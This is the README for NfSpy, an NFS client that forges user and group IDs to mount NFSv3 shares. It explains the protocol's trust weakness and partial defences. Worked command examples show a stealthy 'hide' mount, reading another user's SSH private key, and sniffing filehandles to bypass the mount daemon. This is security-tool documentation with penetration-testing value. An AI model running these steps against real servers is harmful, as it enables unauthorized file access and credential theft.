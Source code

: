 NfSpy - an ID-spoofing NFS client
=================================
by [Daniel Miller](https://github.com/bonsaiviking)

NfSpy is a Python library for automating the falsification of NFS credentials when mounting an NFS
share. Included are two client programs:

* **nfspy** uses the Filesystem in Userspace (FUSE) library to mount an NFS
  share in Linux. This allows the use of any regular file-searching and
  manipulation programs like `grep` and `find` to explore the NFS export.

* **nfspysh** is a ftp-like interactive shell for exploring NFS exports. It does
  not require the FUSE library, so it can run on non-Linux platforms.

Vulnerability exploited
-----------------------

NFS before version 4 is reliant upon host trust relationships for
authentication. The NFS server trusts any client machines to authenticate users
and assign the same user IDs (UIDS) that the shared filesystem uses. This works
in NIS, NIS+, and LDAP domains, for instance, but only if you know the client
machine is not compromised, or faking its identity. This is because the only
authentication in the NFS protocol is the passing of the UID and GID (group
ID). There are a few things that can be done to enhance the security of NFS,
but many of them are incomplete solutions, and even with all three listed here,
it could still be possible to circumvent the security measures.

### Squash root

The server or the share ("export" in NFS lingo) can be configured root\_squash,
meaning that any requests that come in claiming to be UID or GID 0 (root) will
be treated like the nobody user, or equivalent on the system. This does not
prevent an attacker from spoofing any other UID/GID combo, but will protect the
most sensitive info and configs on the export.

### nfs\_portmon

Another setting that can be enabled is nfs\_portmon, which denies requests
coming from source ports outside of the 513-1024 range. Since only root can
(usually) allocate these ports, this prevents a regular user on a trusted
machine from writing and using their own NFS client that fakes UID/GID. It does
nothing to stop a rogue host, a user with su permissions, or a root-level
compromised machine from doing the same thing.

### Export restrictions

Shares/exports can be controlled so that only certain machines can access them.
These Access Control Lists can consist of:

* IP addresses (e.g. 192.168.1.34)
* IP prefixes (e.g. @192.168.1)
* hostnames (e.g. server1.mydom.nis)
* host lists (e.g. @trusted\_hosts)
* "everyone"

The best configuration would be to use a host list, since querying the nfs
daemon will just give the name of the list, not which addresses or names it
contains. Next in line would be IP addresses or hostnames, since those are more
difficult to spoof. IP prefixes and "everyone" are indications of insecurity,
since there is little or no restriction on what addresses can connect.

Using NfSpy
-----------

A list of options can be seen by running

    nfspy --help

### Example

There is an NFS server on 192.168.1.124.

    $ showmount -e 192.168.1.124
    Export list for 192.168.1.124:
    /home (everyone)

Mount up the share. Using sudo lets you bind to a privileged port, and the 
allow\_other option lets any user use the filesystem. The other new option here
is "hide", which immediately "unmounts" the share on the server, but keeps the 
filehandle it got. This hides your presence from anyone using showmount -a

    $ sudo nfspy -o server=192.168.1.124:/home,hide,allow_other,ro,intr /mnt

Enjoy your newfound freedom!

    $ cd /mnt
    /mnt$ ls -l
    drwx------ 74 8888 200 4096 2011-03-03 09:55 smithj
    /mnt$ cd smithj
    /mnt/smithj$ cat .ssh/id.rsa
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: DES-EDE3-CBC,30AEB543E512CA19
    <snip>

To unmount, use fusermount:

    $ sudo fusermount -u /mnt

### Advanced example

There is an NFS server on 192.168.1.124. Portmap is blocked, so you can't get a list of shares, but you can sniff the network traffic.

    $ sudo tshark -n -i eth0 -T fields -e nfs.fhandle
    Running as user "root" and group "root". This could be dangerous.
    Capturing on eth0
    01:00:04:00:01:00:22:00:e5:03:d8:9d:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
    01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00
    01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00
    
    ^C3 packets captured

Now use the dirhandle and getroot mount options to avoid using the mount
daemon, and use the nfsport option to avoid using the portmapper, traversing
up the directory tree to the root of the export. 

    $ sudo nfspy -o rw,server=192.168.1.124:,nfsport=2049/udp,dirhandle=01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00,getroot mnt

Note that we didn't provide a path to mount, since all we know is the nfs
filehandle. For this to work, the handle must be to a directory, not a file,
and you have to work quickly or the handle will become stale.

The `tshark` program is part of the Wireshark project. The common `tcpdump`
program also has the ability to decode NFS filehandles with the `-u` option:

    sudo tcpdump -n -i eth1 -u -- port 2049
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on eth1, link-type EN10MB (Ethernet), capture size 65535 bytes
    11:16:38.041242 IP 192.168.1.5.3057978128 > 192.168.1.124.2049: 120 getattr fh[2070001:762001:0:7500c611:a04186e6:edccffaa:1a0a608e:a065:500859ff:762001:adebb708]

These filehandles are 4-byte colon-separated, so you'll have to pad them with zeros
on your own; NfSpy will just strip the colons out, which is incorrect.

Using nfspysh
-------------

`nfspysh` takes the same basic set of options in the same format as `nfspy`, so
the tutorial above should work fine. The list of commands can be seen with the
"help" command.

    $ sudo PYTHONPATH=. python scripts/nfspysh -o server=127.0.0.1:/home/miller/nfs
    nfspy@127.0.0.1:/home/miller/nfs:/> ls
    /:
    040775  1000  1000       4096 2013-04-13 23:20:37 .
    040775  1000  1000       4096 2013-04-13 23:20:37 ..
    040775  1000  1000       4096 2013-04-11 06:36:48 public
    040775  1000  1000       4096 2013-04-13 23:26:40 more
    040700     0  1000       4096 2013-04-11 06:39:12 secrets
    100666  1000  1000          5 2013-04-13 23:28:02 README.md
    120777  1000  1000         21 2013-04-13 13:00:24 nmap -> /usr/local/share/nmap
    nfspy@127.0.0.1:/home/miller/nfs:/more> help
    Known commands:
        cd
        chmod
        chown
        exit
        get
        help
        lcd
        lpwd
        ls
        mkdir
        mv
        put
        pwd
        rm
        rmdir
        umask
    nfspy@127.0.0.1:/home/miller/nfs:/more> help get
    get <filename> [<localname>]
    
            Retrieve <filename> and save to <localname>. If no <localname> is given,
            defaults to the basename of <filename> in the current local working directory.
    nfspy@127.0.0.1:/home/miller/nfs:/more> exit
    Quitting.

BUGS
----

* Write access is beta. It has worked in my tests on a handful of systems,
  but could use more testing. Because of this, NfSpy defaults to mounting
  ro. Specify the rw mount option to change this.
  (nfspysh does not have a read-only mode. Tread carefully!)

* NfSpy does not work with the standard lockd and statd services, which could
  cause problems with writing to files. For read-only, though, and most
  nefarious uses for which it was intended, this shouldn't be a problem.

* NfSpy only supports NFSv3 at the moment. Future versions may intelligently
  choose a NFS version.
